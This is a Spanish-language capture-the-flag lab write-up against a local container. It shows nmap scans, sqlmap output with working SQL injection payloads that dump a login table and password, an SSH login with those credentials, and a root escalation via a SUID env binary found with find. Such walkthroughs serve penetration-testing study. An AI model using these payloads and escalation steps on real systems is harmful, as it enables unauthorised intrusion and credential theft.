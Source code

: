#sqlmap #sqli #gtfobins #env #suid

![](../../../Images/Pasted%20image%2020241008070610.png)
# Enumeración

## Nmap

El escaneo de **nmap** nos enseña la existencia de un servicio SSH y un servicio HTTP funcionando.

```
> nmap --open --min-rate 10000 -Pn -n -oN scans/allTCPPorts $target

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-23 12:21 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00025s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.08 seconds
```

```
> nmap -oN scans/targetedTCPPorts -sCV $target -p 22,80                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-23 12:22 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00016s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Iniciar Sesi\xC3\xB3n
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.96 seconds
```

## Website (80 TCP Port)

En el sitio web nos encontramos con un panel de inicio de sesión. Comprobando los campos del formulario si contienen una posible vulnerabilidad SQLi, comprobamos que el campo de usuario es vulnerable.

![](../../../Images/Pasted%20image%2020240923102252.png)
# Usuario Dylan

Utilizando la herramienta SQLMap realizamos la autoexplotación de la vulnerabilidad encontrada para extraer datos interesantes. Pero, antes de todo, capturamos la petición GET con Burpsuite.

![](../../../Images/Pasted%20image%2020240923103040.png)


Ahora pasamos la petición a SLQMap y le dejamos trabajar.

```
> sqlmap -r req.txt -D register -T users --dump                                                                                     
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.8.3#stable}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:34:00 /2024-09-23/

[12:34:00] [INFO] parsing HTTP request from 'req.txt'
[12:34:00] [WARNING] provided value for parameter 'submit' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[12:34:00] [INFO] resuming back-end DBMS 'mysql' 
[12:34:00] [INFO] testing connection to the target URL
got a 302 redirect to 'http://172.17.0.2/index.php'. Do you want to follow? [Y/n] y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: name (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: name=-5829' OR 2077=2077#&password=admin&submit=

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: name=admin' OR (SELECT 4254 FROM(SELECT COUNT(*),CONCAT(0x7176707071,(SELECT (ELT(4254=4254,1))),0x7171707a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- ryzS&password=admin&submit=

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: name=admin';SELECT SLEEP(5)#&password=admin&submit=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=admin' AND (SELECT 2043 FROM (SELECT(SLEEP(5)))TFsI)-- nAJP&password=admin&submit=
---
[12:34:02] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[12:34:02] [INFO] fetching columns for table 'users' in database 'register'
[12:34:02] [INFO] resumed: 'username'
[12:34:02] [INFO] resumed: 'varchar(30)'
[12:34:02] [INFO] resumed: 'passwd'
[12:34:02] [INFO] resumed: 'varchar(30)'
[12:34:02] [INFO] fetching entries for table 'users' in database 'register'
[12:34:02] [INFO] resumed: 'KJSDFG789FGSDF78'
[12:34:02] [INFO] resumed: 'dylan'
Database: register
Table: users
[1 entry]
+------------------+----------+
| passwd           | username |
+------------------+----------+
| KJSDFG789FGSDF78 | dylan    |
+------------------+----------+

[12:34:02] [INFO] table 'register.users' dumped to CSV file '/home/rh4ps00dy/.local/share/sqlmap/output/172.17.0.2/dump/register/users.csv'
[12:34:02] [INFO] fetched data logged to text files under '/home/rh4ps00dy/.local/share/sqlmap/output/172.17.0.2'
[12:34:02] [WARNING] your sqlmap version is outdated

[*] ending @ 12:34:02 /2024-09-23/
```

De esta forma conseguimos un nombre de usuario y una contraseña. 

Ahora podemos iniciar sesión en el servicio SSH abierto en el puerto 22.

```
ssh dylan@$target                                                                                                                   
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.9.7-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

dylan@3a52fa45bcbe:~$ 
```

# Escalada de privilegios

Haciendo una investigación a nivel local del sistema descubrimos el binario ``/usr/bin/env`` con permisos SUID.

```
> find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

-rwsr-xr-x 1 root root 72712 Feb  6  2024 /usr/bin/chfn
-rwsr-xr-x 1 root root 44808 Feb  6  2024 /usr/bin/chsh
-rwsr-xr-x 1 root root 72072 Feb  6  2024 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 47480 Feb 21  2022 /usr/bin/mount
-rwsr-xr-x 1 root root 40496 Feb  6  2024 /usr/bin/newgrp
-rwsr-xr-x 1 root root 59976 Feb  6  2024 /usr/bin/passwd
-rwsr-xr-x 1 root root 55672 Feb 21  2022 /usr/bin/su
-rwsr-xr-x 1 root root 35192 Feb 21  2022 /usr/bin/umount
-rwsr-xr-x 1 root root 43976 Jan  8  2024 /usr/bin/env
-rwsr-xr-- 1 root messagebus 35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 338536 Jan  2  2024 /usr/lib/openssh/ssh-keysign
```

Ahora nos podemos dirigir al sitio web [GTFOBins](https://gtfobins.github.io/) para descubrir como explotar está vulnerabilidad.

![](../../../Images/Pasted%20image%2020240923103932.png)

Como sudo está desactivado podemos ahorrarnos la primera línea y apuntar directamente a la ruta del binario, consiguiendo así rootear la máquina.

![](../../../Images/Pasted%20image%2020240923104053.png)